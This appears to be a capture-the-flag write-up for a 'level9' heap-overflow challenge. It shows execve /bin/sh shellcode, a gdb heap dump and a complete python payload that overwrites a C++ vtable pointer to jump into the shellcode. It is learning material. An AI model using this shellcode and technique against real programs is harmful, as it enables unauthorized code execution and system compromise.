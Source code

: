 ```
Here is our shellcode (size 24)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

Here is the layout of the heap after the two allocation and construction of N object, and before
the call to `setAnnotation`

```bash
(gdb) x/75x 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x00000000
0x804a010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000005	0x00000071	0x08048848	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000006	0x00020f21	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a110:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a120:	0x00000000	0x00000000	0x00000000
```

`0x08048848` indicates start of struct

`instance1->nb` at this + 26 * 4 = `0x00000005`

`instance2->nb` at this + 26 * 4 = `0x00000006`

```bash
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:	0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:	0x8be58955
```

this address might be the pointer on member function called at the end of the main return value

### Payload

So the strategy should be to overwrite the member function `0x08048848` and points to another address in the heap that point to a shellcode.
why 2 jump are needed ? we need 2 jump because the call to the member function is dereferenced two times

`return (**(code **)*instance_2)(instance_2, instance_1);` --> here the 2 `*`

so we craft the payload

```bash
./level9 `python -c 'print("A" * 4 + "\x14\xa0\x04\x08" + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 76 + "\x10\xa0\x04\x08")'`
```

here we have at the end `"\x10\xa0\x04\x08"` that point to an adress (`\x14\xa0\x04\x08`) and this address point to the beginning of the shellcode `\x31\xc0\x99\x50`
